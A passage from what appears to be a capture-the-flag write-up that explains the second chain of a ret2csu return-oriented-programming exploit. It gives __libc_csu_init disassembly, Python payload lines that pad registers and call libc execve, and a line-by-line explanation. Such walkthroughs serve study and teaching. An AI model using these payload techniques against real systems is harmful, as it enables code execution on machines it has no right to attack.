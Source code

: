 Now, it's time to check the second ROP chain:-

```python
'''
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
   0x0000000000400679 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040067d <+77>:	add    rbx,0x1
   0x0000000000400681 <+81>:	cmp    rbp,rbx
   0x0000000000400684 <+84>:	jne    0x400670 <__libc_csu_init+64>
   0x0000000000400686 <+86>:	add    rsp,0x8
   0x000000000040068a <+90>:	pop    rbx
   0x000000000040068b <+91>:	pop    rbp
   0x000000000040068c <+92>:	pop    r12
   0x000000000040068e <+94>:	pop    r13
   0x0000000000400690 <+96>:	pop    r14
   0x0000000000400692 <+98>:	pop    r15
   0x0000000000400694 <+100>:	ret    
'''

payload += p64(0x00)            # add rsp,0x8 padding
payload += p64(0x00)            # rbx
payload += p64(0x00)            # rbp
payload += p64(0x00)            # r12
payload += p64(0x00)            # r13
payload += p64(0x00)            # r14
payload += p64(0x00)            # r15
payload += p64(libc.symbols['execve'])
```

Well, kind of a long chain to deal with but it's very simple, as I already explained it but this time we are giving the input, so this is a crucial part. The explanations would be done line by line:-

```asm
   0x0000000000400670 <+64>:	mov    rdx,r15
   0x0000000000400673 <+67>:	mov    rsi,r14
   0x0000000000400676 <+70>:	mov    edi,r13d
   0x0000000000400679 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040067d <+77>:	add    rbx,0x1
   0x0000000000400681 <+81>:	cmp    rbp,rbx
   0x0000000000400684 <+84>:	jne    0x400670 <__libc_csu_init+64>
   0x0000000000400686 <+86>:	add    rsp,0x8
```

Now, the `mov` instructions will transfer the contents to registers. Previously, we gave `r12` : `0x600e38` which is an address to the `_init` pointer, here, apparently, `rbx` was `0` which means `[r12 + rbx * 8]` will be equal to `[0x600e38 + 0 * 8]` which will be `[0x600e38]`.  After that `rbx` is incremented by `0x1` which will make the `rbx` value `0x1`. Then the `cmp    rbp,rbx`, as you remember from the first chain, we provided `0x1` to `rbp` value, then it will evaluate equally since `rbp` and `rbx` both have the value of `0x1`, skipping the `jne` line. After that we have, `add rsp, 0x8`, we have to pad this instruction by giving `0x0`, after that we can give `0x0` to the popped registers as the control flow of program would take care of this.

